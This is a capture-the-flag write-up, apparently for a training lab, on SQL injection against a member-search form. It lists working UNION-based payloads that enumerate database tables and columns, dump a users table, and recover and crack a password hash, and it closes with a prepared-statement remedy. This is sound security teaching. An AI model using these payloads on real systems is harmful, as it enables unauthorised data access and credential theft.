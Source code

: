 # SQL_Injection
Ahhhh the notorious SQL Injection. This attack from the hacker aims to manipulate the database specifically an SQL database to expose sensitive data such as user email and password if the website does have such. Basically if an Input is used to search through the database for a specif field, table or database data, and is not hanled properly by the server. A hacker can just simply append an Instruction to value that asks for the database to give out more information than what was originally purposed.

## Example
In http://192.168.43.251/index.php?page=member, we are presented with a page that has a form input. An obvious assumpution is that since the input requires a values to search for a particular member, that value is used by the server to query the database. We can simply check this by giving a value and appending to it anything that might error, or even tell us the type of SQL database that is beign used for example

If we give this value ' and then we get an error from the database then we know that the input is being taken straight to the database and is being as is. This is exacly what happens in this case. We receive the 
Error: "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1".
From here on out we can genlty manipulate the database and ask it to give the name of the tables, databases and the type of database being used. And so through a set of commands we are not only able to determine the type of database but alson all the databases along with their tables and fields.

## Commands
    1  AND 1 = SLEEP(2);--

    1 UNION (SELECT 1,2 FROM dual );--

    1 UNION (SELECT TABLE_NAME, TABLE_SCHEMA  FROM information_schema.tables);--

    1 UNION (SELECT COLUMN_NAME, 1 FROM information_schema.columns );--

One of these tables is users
Table : users
Colunm : user_id
Colunm : first_name
Colunm : last_name
Colunm : town
Colunm : country
Colunm : planet
Colunm : Commentaire
Colunm : countersign

    1 UNION (SELECT user_id, first_name FROM users);--
    1 UNION (SELECT last_name, town FROM users);--
    1 UNION (SELECT country, planet FROM users);--
    1 UNION (SELECT Commentaire, countersign FROM users);--

And through a number of these commands we are able to retrieve out flag
{
    instruction: Decrypt this password -> then lower all the char. Sh256 on it and it's good !   
    hash : 5ff9d0165b4f92b14994e5c685cdce28
}

flag: 5ff9d0165b4f92b14994e5c685cdce28 -md5> fortytwo  -sha256> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 

## Remedy
1. Now all of this  can be prevented by using prepared statements. Prepared statement will tell that database to look at the input as nothing else but just that, an input.

# Resources
    https://www.youtube.com/watch?v=ciNHn38EyRc